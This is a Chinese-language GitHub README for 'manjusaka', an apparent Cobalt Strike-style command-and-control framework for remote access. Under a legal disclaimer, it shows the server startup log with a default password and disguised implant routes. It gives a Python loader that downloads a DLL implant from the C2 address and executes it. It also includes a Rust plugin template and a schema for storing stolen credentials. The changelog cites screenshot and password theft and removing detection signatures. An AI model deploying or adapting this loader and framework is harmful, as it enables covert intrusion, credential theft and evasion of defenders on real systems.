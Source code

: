 
# 免责声明 
本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

此工具仅限于安全研究和教学，用户承担因使用此工具而导致的所有法律和相关责任！ 作者不承担任何法律和相关责任！

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。



# manjusaka
牛屎花  一款基于WEB界面的仿CobaltStrike C2远控 

##系统架构： ![](https://github.com/YDHCUI/manjusaka/blob/main/images/0.jpg)

## 使用方法
```bash
[root@devops nps]# ./manjusaka
[NPS] 2022/09/14 15:57:21 初始用户: manjusaka  密码: ZbFCa2L2LRd5
[NPS] 2022/09/14 15:57:21 创建项目: 公共项目 没有归属的npc放在这个项目里面
[NPS] 2022/09/14 15:57:21 监听项目路由: VHOS5vqN
[NPS] 2022/09/14 15:57:21 NPS监听地址 :3200
[NPS] 2022/09/14 15:57:21 NPU后台地址 : manjusaka
[NPS] 2022/09/14 15:57:21 NPC监听地址 :801
[NPS] 2022/09/14 15:57:21 NPC交互路由 : /:target/favicon.ico
[NPS] 2022/09/14 15:57:21 NPC下载路由 : /:target/assert/:sys/bg.jpg
[NPS] 2022/09/14 15:57:21 NPC文件路由 : /images/:fid/logo.png
```
则NPS访问地址为  http://192.168.93.217:3200/manjusaka 


1、创建项目，默认有一个公共项目，选择当前项目后 可在回传结果里面查看当前项目回传的信息

![](https://github.com/YDHCUI/manjusaka/blob/main/images/1.png)


2、根据项目 生成npc 可以直接使用exe或elf格式的npc。也可以使用其它语言加载npc母体 比如使用python加载npc
 
```python
import requests
from ctypes import cdll

res = requests.get("http://192.168.93.217:801/bq1iFEP2/assert/dll/bg.jpg")
with open("a.dll","wb") as f:
    f.write(res.content)

dll = cdll.LoadLibrary("a.dll")
dll.main()

```


![](https://github.com/YDHCUI/manjusaka/blob/main/images/2.png)

3、npc上线，点选中该npc即可对其进行操作

![](https://github.com/YDHCUI/manjusaka/blob/main/images/3.png)

![](https://github.com/YDHCUI/manjusaka/blob/main/images/4.png)

![](https://github.com/YDHCUI/manjusaka/blob/main/images/5.png)

![](https://github.com/YDHCUI/manjusaka/blob/main/images/6.png)

![](https://github.com/YDHCUI/manjusaka/blob/main/images/7.png)

![](https://github.com/YDHCUI/manjusaka/blob/main/images/8.png)


4、插件系统 生成dll/so插件, 以plug_name_nps.dll格式命名放到plugins文件夹下面 即可动态调用
插件开发示例, plugmain传入插件运行参数 传出返回的内容值 
```rust
//./Cargo.toml

[lib]
path = "src/lib.rs"
crate-type = ["cdylib"]


//src/lib.rs

use std::ffi::CStr;
use std::ffi::CString;
use std::os::raw::c_char;

use protobuf::Message;
use protobuf::RepeatedField;

#[no_mangle]
pub unsafe extern "C" fn plugmain(args: *const c_char) -> *const c_char { 
    let args = CStr::from_ptr(args).to_str().unwrap();

    let mut prs = Vec::<plug::PassResult>::new();
    prs.push(plug::PassResult::new());
    
    let mut gret = plug::PlugResult{
        name: "test".to_string(),
        args: args.to_string(),
        resulttype: plug::ResultType::PASSRET,
        ..Default::default()
    };
    gret.set_passresult(RepeatedField::from_vec(prs));

    let c_str = gret.write_to_bytes().expect("protobuf to bytes err");


    CString::new(c_str).expect("CString failed").into_raw()
}


```
返回值匹配到如下protobuf格式后后将结果写入数据库

```protobuf

syntax = "proto3";


enum ResultType {
    PASSRET = 0;
    PORTRET = 1;
    HTTPRET = 2;
}

message PassResult {
    string username = 1;
    string password = 2;
    string passtype = 3;
    string passfrom = 4;
}

message PortResult {
    string host = 1;
    int32 port = 2;
    string proto = 3;
    string version = 4;
}

message HttpResult {
    string proto = 1;
    string host = 2;
    int32 port = 3;
    string title = 4;
    string note = 5;
}

message PlugResult {
    string name = 1;
    string args = 2;
    ResultType resulttype = 3;
    repeated PassResult passresult = 11;
    repeated PortResult portresult = 12;
    repeated HttpResult httpresult = 13;
}

```
 
## 更新

### 0.6 todo

1、npc.exe分阶段加载，完成npc.ps1 和 npc.sh

2、更新getinfo，useoss，useproxy等插件 

3、rust重写nps？ 


### v0.5
1、修复安全漏洞

2、开放NPC配置修改功能

3、上传文件流程优化

4、增加动态插件功能，可拓展更多功能 

5、去除特征、修复bug 


### v0.4
1、随机key 

2、去除特征、修复bug 

### v0.3
1、实现截屏、密码获取功能。(仅window) 

2、修复cmd界面不能黏贴的bug。 

3、修复项目不能暂停的bug。 

4、自动创建data文件夹。 


### v0.2
1、修改网络协议使流量加密。

2、加入本地文件上传下载功能。

3、修复shell界面位移bug。

### v0.1
1、实现基础远控功能。


## 交流
https://discord.gg/YMqeN5Qyk4
